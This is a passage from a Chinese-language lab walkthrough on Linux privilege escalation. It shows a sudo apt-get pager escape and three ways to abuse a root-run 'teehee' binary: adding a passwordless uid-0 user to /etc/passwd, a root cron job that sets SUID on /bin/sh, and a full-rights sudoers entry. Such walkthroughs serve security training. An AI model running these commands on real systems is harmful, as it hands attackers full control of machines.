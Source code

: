 切换到jason用户，使用apt-get命令提权，因为用户是自己建立的，所以密码也当然是知道的；
```
sudo apt-get changelog apt
!/bin/bash
```
![](./assets/1671608752680-ebbc2635-1113-4445-abe6-7afaf0de707e.jpeg)


## 10.12、tee提权
这里靶机用的是teehee命令，可以写入文件内容并不覆盖文件原有内容，功能与tee命令类似。<br />![](./assets/1671608752949-d564ecca-0ee7-47cf-a03a-c521a975b69f.jpeg)
虽然有密码，但不能直接切到root，从sudo看，明显这个teehee可以不要密码以root身份运行，提权就靠这个程序了；

**方法一**<br />追加一个名为hacker的用户，将它的uid和gid也设置为root的0：
```
echo "hacker::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```
![](./assets/1671608753090-dfee96e0-efe2-4e77-927f-52b4f6ab774e.jpeg)
![](./assets/1671608753698-6f991993-0f92-4c3e-bb7b-d6612566c080.jpeg)


**方法二**<br />可以在/etc/crontab下写入定时计划，提升到root权限。<br />crontab介绍<br />Linux crontab是用来定期执行程序的命令。当安装完成操作系统之后，默认便会启动此任务调度命令。
```
f1 f2 f3 f4 f5 program
其中 f1 是表示分钟，f2 表示小时，f3 表示一个月份中的第几日，f4 表示月份，f5 表示一个星期中的第几天。program 表示要执行的程序。
当 f1 为 * 时表示每分钟都要执行 program，f2 为 * 时表示每小时都要执行程序，其馀类推；
当 f1 为 a-b 时表示从第 a 分钟到第 b 分钟这段时间内要执行，f2 为 a-b 时表示从第 a 到第 b 小时都要执行，其馀类推；
当 f1 为 */n 时表示每 n 分钟个时间间隔执行一次，f2 为 */n 表示每 n 小时个时间间隔执行一次，其馀类推；
当 f1 为 a, b, c,... 时表示第 a, b, c,... 分钟要执行，f2 为 a, b, c,... 时表示第 a, b, c...个小时要执行，其馀类推

*    *    *    *    *
-    -    -    -    -
|    |    |    |    |
|    |    |    |    +----- 星期中星期几 (0 - 7) (星期天 为0)
|    |    |    +---------- 月份 (1 - 12) 
|    |    +--------------- 一个月中的第几天 (1 - 31)
|    +-------------------- 小时 (0 - 23)
+------------------------- 分钟 (0 - 59)
```

我们可以追加内容为
```
echo "* * * * * root chmod 4777 /bin/sh" | sudo teehee -a /etc/crontab
```
表示在/etc/crontab下写入定时计划，一分钟后由root用户给 /bin/bash 命令加权限（chmod 4777即开启suid和rwx权限）<br />![](./assets/1671608753729-75c9f6d3-963f-4921-b279-dc79228471ca.jpeg)

**方法三**<br />先看看本地sudoers文件的语法。
```
cat sudoers
```
![](./assets/1671608753856-822d733c-f1cb-435b-a0e4-61fa4fc081f9.jpeg)
仿造写一个 charles ALL=(ALL:ALL) ALL
```
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee -a /etc/sudoers
```
![](./assets/1671608753874-256f58d7-0b60-436f-8d8e-61f1aa1f1e2b.jpeg)
